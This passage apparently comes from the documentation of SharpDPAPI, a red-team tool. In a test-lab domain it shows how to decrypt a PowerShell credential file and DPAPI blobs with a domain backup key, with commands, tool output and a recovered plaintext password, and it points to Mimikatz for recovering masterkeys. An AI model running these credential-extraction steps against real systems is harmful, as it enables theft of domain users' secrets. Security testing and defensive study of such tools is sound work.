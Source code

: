         CredFile         : C:\Temp\cred.xml
        Accessed         : 7/25/2019 12:04:12 PM
        Modified         : 7/25/2019 12:04:12 PM
        User Name        : TESTLAB\user
        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        Password         : Password123!


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    PS C:\Temp> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    PS C:\Temp> New-Object System.Management.Automation.PSCredential('TESTLAB\user', $SecPassword) | Export-CLIXml C:\Temp\cred.xml
    PS C:\Temp> .\SharpDPAPI.exe ps /target:C:\Temp\cred.xml /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.5.0


    [*] Action: Describe PSCredential .xml

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

        CredFile         : C:\Temp\cred.xml
        Accessed         : 7/25/2019 12:04:12 PM
        Modified         : 7/25/2019 12:04:12 PM
        User Name        : TESTLAB\user
        guidMasterKey    : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
        size             : 170
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        Password         : Password123!


#### blob

The **blob** command will describe/decrypt a DPAPI blob. A `/target:<BASE64|blob.bin>` *must* be supplied.

The command will a) decrypt the blob with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.
